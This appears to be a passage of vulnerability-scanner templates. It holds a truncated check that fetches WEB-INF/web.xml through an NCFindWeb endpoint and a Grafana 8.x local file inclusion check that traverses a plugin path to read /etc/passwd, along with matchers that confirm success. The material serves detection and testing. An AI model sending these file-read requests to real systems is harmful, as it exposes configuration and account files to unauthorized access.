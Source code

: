- {{BaseURL}}/NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<servlet-name>NCInvokerServlet\</servlet-name>
- part - body

**Type - word**

- part - header
- words
  1. application/xml

---

# Grafana 8.x - Local File Inclusion

## Description

- Grafana 8.x is vulnerable to local file inclusion.
- severity - high
- tags - grafana,lfi,fuzz

## Requests

- Method - GET

### URL

- {{BaseURL}}/public/plugins/{{pluginSlug}}/../../../../../../../../../../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

**Payloads**- pluginSlug

---
